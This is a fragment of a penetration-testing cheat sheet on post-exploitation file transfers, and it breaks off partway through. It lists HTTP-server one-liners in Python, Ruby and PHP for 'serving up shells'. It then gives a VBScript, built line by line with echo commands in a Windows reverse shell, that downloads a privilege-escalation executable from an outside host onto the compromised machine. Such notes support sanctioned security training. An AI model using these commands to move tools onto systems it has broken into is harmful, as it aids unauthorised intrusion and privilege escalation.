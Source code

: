 File Transfers
============================================================================================================

-   Post exploitation refers to the actions performed by an attacker,
    once some level of control has been gained on his target.

-   Simple Local Web Servers

    -   Run a basic http server, great for serving up shells etc  
        python -m SimpleHTTPServer 80

    -   Run a basic Python3 http server, great for serving up shells
        etc  
        python3 -m http.server

    -   Run a ruby webrick basic http server  
        ruby -rwebrick -e "WEBrick::HTTPServer.new  
        (:Port => 80, :DocumentRoot => Dir.pwd).start"

    -   Run a basic PHP http server  
        php -S $ip:80

-   Creating a wget VB Script on Windows:  
    [*https://github.com/erik1o6/oscp/blob/master/wget-vbs-win.txt*](https://github.com/erik1o6/oscp/blob/master/wget-vbs-win.txt)

-   Windows file transfer script that can be pasted to the command line.  File transfers to a Windows machine can be tricky without a Meterpreter shell.  The following script can be copied and pasted into a basic windows reverse and used to transfer files from a web server (the timeout 1 commands are required after each new line):

         echo Set args = Wscript.Arguments  >> webdl.vbs
         timeout 1
         echo Url = "http://1.1.1.1/windows-privesc-check2.exe"  >> webdl.vbs
         timeout 1
         echo dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")  >> webdl.vbs
         timeout 1
         echo dim bStrm: Set bStrm = createobject("Adodb.Stream")  >> webdl.vbs
         timeout 1
         echo xHttp.Open "GET", Url, False  >> webdl.vbs
         timeout 1
         echo xHttp.Send  >> webdl.vbs
         timeout 1
         echo with bStrm      >> webdl.vbs
         timeout 1
         echo 	.type = 1 '      >> webdl.vbs
         timeout 1
         echo 	.open      >> webdl.vbs
         timeout 1
         echo 	.write xHttp.responseBody      >> webdl.vbs
         timeout 1
         echo 	.savetofile "C:\temp\windows-privesc-check2.exe", 2 '  >> webdl.vbs
         timeout 1
         echo end with >> webdl.vbs
         timeout 1
         echo
